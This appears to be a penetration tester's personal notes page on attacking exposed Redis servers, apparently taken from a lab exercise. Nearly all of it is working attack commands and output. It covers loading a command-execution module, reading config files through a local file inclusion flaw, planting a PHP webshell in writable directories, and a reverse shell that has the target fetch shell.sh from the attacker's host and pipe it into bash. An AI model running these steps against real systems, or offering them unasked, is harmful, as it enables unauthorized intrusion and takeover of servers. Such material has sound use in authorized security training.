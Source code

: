 ```yaml
---
category: Uncategorized
tags: []
---
```

https://book.hacktricks.xyz/pentesting/6379-pentesting-redis

#### Download Redis

OPTION 1:

```bash - kali
sudo apt install redis-tools
```

```bash - kali
redis-cli -h $TARGET -a Ready4Redis?
```

If password doesn't work try obtaining the [[#Redis config files]].

xxx.xxx.xxx.xxx:6379> `ping`
`PONG`

```bash - kali
git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand && cd RedisModules-ExecuteCommand
```

```bash - kali
sudo make
```

Upload module.so into victim (Example by FTP):

We can google "ftp pub directory" to find that the default location is in /var/ftp/pub.

>/var/ftp/pub/module.so

### Redis RCE
```bash - kali
redis-cli -h $TARGET
```

```bash - kali
MODULE LOAD /var/ftp/pub/module.so
```

```bash - kali
system.exec "id"
```

[[Port 22 - SSH  ~#Generate key upload to victim]]

### Redis config files
Use with LFI vulnerability.

```bash - kali
curl http:$TARGET/?path=/etc/redis/redis.conf -o redis.conf
```

```bash - kali
curl http:$TARGET/?path=/etc/systemd/system/redis.service
```

#### Redis webshell
After logging in successfully:
Try with /var/www/ and /var/www/html.
```bash - kali
xxx.xxx.xxx.xxx:6379> config set dir /var/www/html
OK
xxx.xxx.xxx.xxx:6379> config set dbfilename test.php
OK
xxx.xxx.xxx.xxx:6379> set test "<?php system('id'); ?>"
OK
xxx.xxx.xxx.xxx:6379> save
(error) ERR
```

If you get an error as seen above, try obtaining redis.service file from [[#Redis config files]] and note where ReadWriteDirectories variable points to. 
```bash - kali
...
ReadWriteDirectories=-/etc/redis
ReadWriteDirectories=-/opt/redis-files
...
```

Try the steps again with the new paths:
```bash - kali
xxx.xxx.xxx.xxx:6379> config set dir /opt/redis-files
OK
xxx.xxx.xxx.xxx:6379> config set dbfilename test.php
OK
xxx.xxx.xxx.xxx:6379> set test "<?php system('id'); ?>"
OK
xxx.xxx.xxx.xxx:6379> save
OK
xxx.xxx.xxx.xxx:6379> 
```

We can then use LFI to read this file. The contents will be in Redis RDB format so let's output it to a file and run `strings`.

```bash - kali
┌──(kali㉿kali)-[~]
└─$ curl http://$TARGET/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/opt/redis-files/test.php -o test.php
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   193  100   193    0     0   2014      0 --:--:-- --:--:-- --:--:--  2031
                                                                                                            
┌──(kali㉿kali)-[~]
└─$ file test.php                  
test.php: Redis RDB file, version 0009
                                                                                                            
┌──(kali㉿kali)-[~]
└─$ strings test.php      
REDIS0009
        redis-ver
5.0.14
redis-bits
ctime
used-mem
aof-preamble
test
uid=1000(alice) gid=1000(alice) groups=1000(alice)
 {"success":true,"data":{"output":[]}}
```


The output from the `id` command can be found in this file. This means we can execute a reverse shell using this method. Let's start by creating a file on our kali host named **shell.sh** with the following contents.

```bash - kali
#!/bin/bash
/bin/bash -i >& /dev/tcp/$KALI/443 0>&1
```

Let's host this file using a python webserver to make it available to the target.

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

We then need to start a listener to catch the reverse shell.
![[rlwrap]]

Next, let's use our Redis session to cause the target to download and pipe **shell.sh** into `bash`.

```bash - kali
xxx.xxx.xxx.xxx:6379> config set dir /opt/redis-files
OK
xxx.xxx.xxx.xxx:6379> config set dbfilename test.php
OK
xxx.xxx.xxx.xxx:6379> set test "<?php system('curl $KALI/shell.sh | bash'); ?>"
OK
```

Finally, we trigger our reverse shell by using the WordPress LFI.

```bash - kali
curl http:$TARGET/?path=/opt/redis-files/test.php
```

This command will hang, and we will receive a connection to our listener.

```bash - kali
connect to [$KALI] from (UNKNOWN) [xxx.xxx.xxx.xxx] 45752
bash: cannot set terminal process group (551): Inappropriate ioctl for device
bash: no job control in this shell
<ite-editor/editor/extensions/pagebuilder/includes$ whoami
whoami
alice
<ite-editor/editor/extensions/pagebuilder/includes$ id
id
uid=1000(alice) gid=1000(alice) groups=1000(alice)
```
